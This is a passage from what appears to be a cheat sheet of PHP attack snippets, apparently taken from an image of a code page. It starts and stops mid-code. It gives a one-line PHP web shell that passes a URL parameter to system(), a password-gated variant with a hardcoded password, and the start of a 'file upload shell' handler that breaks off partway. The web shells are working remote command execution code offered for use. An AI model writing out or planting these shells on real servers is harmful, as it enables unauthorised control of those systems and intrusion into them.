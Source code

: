 ```php
}
?>
```

### Web Shells

#### PHP Web Shell

```php
<?php echo system($_GET['cmd']); ?>
```

#### PHP Web Shell with Password Protection

```php
<?php
$password = 'password123';  // Set your desired password here

if (isset($_GET['password']) && $_GET['password'] === $password) {
    echo system($_GET['cmd']);
} else {
    echo 'Access denied.';
}
?>
```

### File Upload Shells

#### PHP File Upload Shell

```php
<?php
$target_dir = '/var/www/html/uploads/';  // Directory where the uploaded file will be saved
$target_file = $target_dir . basename($_FILES['file']['name']);
$upload_ok = 1;
$image_file_type = strtolower(pathinfo($target_file, PATHINFO_EXTENSION));

// Check if the file is an image
if (isset($_POST['submit'])) {
    $check = getimagesize($_FILES['file']['tmp_name']);
    if ($check !== false) {
        echo 'File is an image - ' . $check['mime'] . '.';
        $upload_ok = 1;
    } else {
        echo 'File is not an image.';
        $upload_ok = 0;
    }
}

// Check if the file already exists
if (file_exists($target_file)) {
    echo 'Sorry, file already exists.';
    $upload_ok = 0;
}

// Check file size
if ($_FILES['file']['size'] > 500000) {
    echo 'Sorry, your file is too large.';
    $upload_ok = 0;
}

// Allow only certain file formats
if ($image_file_type != 'jpg' && $image_file_type != 'png' && $image_file_type != 'jpeg' && $image_file_type != 'gif') {
    echo 'Sorry, only JPG, JPEG, PNG, and GIF files are allowed.';
```